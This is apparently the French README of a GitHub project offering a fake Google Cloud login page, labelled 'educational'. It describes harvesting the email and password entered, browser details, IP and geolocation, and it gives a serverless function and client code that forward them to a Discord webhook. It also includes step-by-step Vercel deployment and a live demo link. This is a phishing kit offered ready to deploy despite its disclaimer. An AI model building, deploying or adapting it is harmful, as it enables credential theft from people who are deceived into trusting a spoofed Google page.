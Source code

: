 # 🌐 GCloud Connexion – Démo Éducative

Ce projet est une **fausse page de connexion GCloud** à but **strictement pédagogique**. Il sert à montrer comment collecter certaines données côté client (navigateur, IP, géo) et les envoyer à un webhook Discord.

> ⚠️ Ce projet ne fait aucune vraie authentification. Il est à **usage éducatif uniquement**.

---

## ✨ Fonctionnalités

- Interface UI inspirée de Google
- Collecte côté client :
  - Email et mot de passe (fictifs)
  - Infos navigateur (agent, langue, fuseau, résolution…)
  - IP et géolocalisation approximative via [ipapi.co](https://ipapi.co/json)
- Envoi des données dans un **webhook Discord** sécurisé via variable d’environnement
- Déploiement automatique avec [Vercel](https://vercel.com)

---

## 🛠️ Tech Stack

- HTML / CSS / JS pur
- API Web natives (`fetch`, `navigator`, etc.)
- [ipapi.co](https://ipapi.co/json) pour l’IP et géolocalisation
- Hébergement via [Vercel](https://vercel.com)

---

## 🚀 Déploiement (Vercel)

### 1. Cloner le repo

```bash
git clone https://github.com/PariaHRZ/gcloud-login
cd gcloud-login
```

### 2. Déployer avec Vercel

1. Va sur [vercel.com](https://vercel.com)
2. Connecte ton compte GitHub
3. Clique sur **"Add New → Project"**
4. Sélectionne le repo
5. Va dans l’onglet **Environment Variables** et ajoute :

| Nom de la variable      | Valeur (exemple)                        |
|-------------------------|-----------------------------------------|
| `DISCORD_WEBHOOK_URL`   | `https://discord.com/api/webhooks/...` |

6. Lance le déploiement ✅

Ton site sera accessible à une URL comme :
```
https://ton-projet.vercel.app
```

---

## 📦 Lancer en local

```bash
git clone https://github.com/PariaHRZ/gcloud-login
cd gcloud-login
open index.html  # ou double-clique dessus
```

⚠️ En local, le webhook Discord **ne fonctionnera pas** sans backend intermédiaire.

---

## 🔒 Sécurité du webhook

Le webhook Discord est **stocké dans une variable d’environnement** (`DISCORD_WEBHOOK_URL`) sur Vercel, et **jamais exposé dans le code HTML/JS**.

L’envoi se fait vers une API Vercel (serverless function) sécurisée.

---

## 📁 Exemple d’API (à mettre dans `/api/webhook.js`)

```js
export default async function handler(req, res) {
  const webhook = process.env.DISCORD_WEBHOOK_URL;
  if (!webhook) return res.status(500).send("Webhook manquant");

  await fetch(webhook, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(req.body),
  });

  res.status(200).send("OK");
}
```

Et côté client dans ton JS :

```js
fetch("/api/webhook", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ content: message })
});
```

---

## 📄 Licence

MIT – libre d’adaptation à des fins pédagogiques.

---

## 🔗 Démo

🔗 [https://gcloud-login-git-main-pariahrzs-projects.vercel.app/](https://gcloud-login-git-main-pariahrzs-projects.vercel.app/)
